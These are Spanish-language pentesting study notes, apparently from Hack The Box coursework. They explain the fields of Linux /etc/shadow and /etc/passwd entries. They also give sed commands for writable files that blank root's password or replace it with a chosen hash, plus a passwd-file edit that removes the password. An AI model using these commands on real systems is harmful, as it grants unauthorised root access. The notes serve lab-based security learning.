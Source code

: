 #linux #passwd #shadow #bruteforce #credentialHunting #pastheticket 
## etc/shadow
### Contenido del archivo
``` textplain 
htb-student:$y$j9T$3QSBB6CbHEu...SNIP...f8Ms:18955:0:99999:7:::
```

| htb-student:  | \$y\$j9T$3QSBB6CbHEu...SNIP...f8Ms: | 18955:                  | 0:           | 99999:       | 7:                  | :                      | :                    | :                  |
| ------------- | ----------------------------------- | ----------------------- | ------------ | ------------ | ------------------- | ---------------------- | -------------------- | ------------------ |
| `<username>`: | `<encrypted password>`:             | `<day of last change>`: | `<min age>`: | `<max age>`: | `<warning period>`: | `<inactivity period>`: | `<expiration date>`: | `<reserved field>` |
### Contenido hash
#### Formato
| `$ <id>` | `$ <salt>` | `$ <hashed>` |
| --- | --- | --- |
| `$ y` | `$ j9T` | `$ 3QSBB6CbHEu...SNIP...f8Ms` |
#### Cuenta bloqueada
Si en el campo `<encrypted password>` nos encontramos el valor `*` ó `!` la cuenta está bloqueada por autenticación mediante contraseña

### Permiso de escritura
#### Dejar campo contraseña vacío
Podemos dejar el campo `<encrypted password>` vacío para poder autenticarnos sin contraseña. Ejemplo: 
```textplain
root::18955:0:99999:7:::
```
Con comando de sustitución:
```bash
sed -i 's|^root:.*:|root::|' /etc/shadow
```

#### Crear nueva contraseña
Si esto no funciona podemos intentar cambiar la contraseña de root utilizando `mkpasswd`

```bash
sed -i "s|^root:.*:|root:$(mkpasswd -m sha-512 'newpass'):|" /etc/shadow
```


## etc/passwd
### Contenido

```textplain
htb-student:x:1000:1000:,,,:/home/htb-student:/bin/bash
```

| htb-student: | x: | 1000: | 1000: | ,,,: | /home/htb-student: | /bin/bash |
| --- | --- | --- | --- | --- | --- | --- |
| `<username>:` | `<password>:` | `<uid>:` | `<gid>:` | `<comment>:` | `<home directory>:` | `<cmd executed after logging in>` |
El `uid` y `guid` por defecto del usuario `root` son `0`, y en el resto de usuarios, el nombre de usuario y grupo suele empezar a partir del valor `1000`
La `x`en la contraseña indica que la contraseña se guarda en otro archivo (`/etc/shadow`) 
### Permiso de escritura
#### Cambiar el campo `x` por `0`
De esta manera el usuario no deberá introducir contraseña para autenticarse
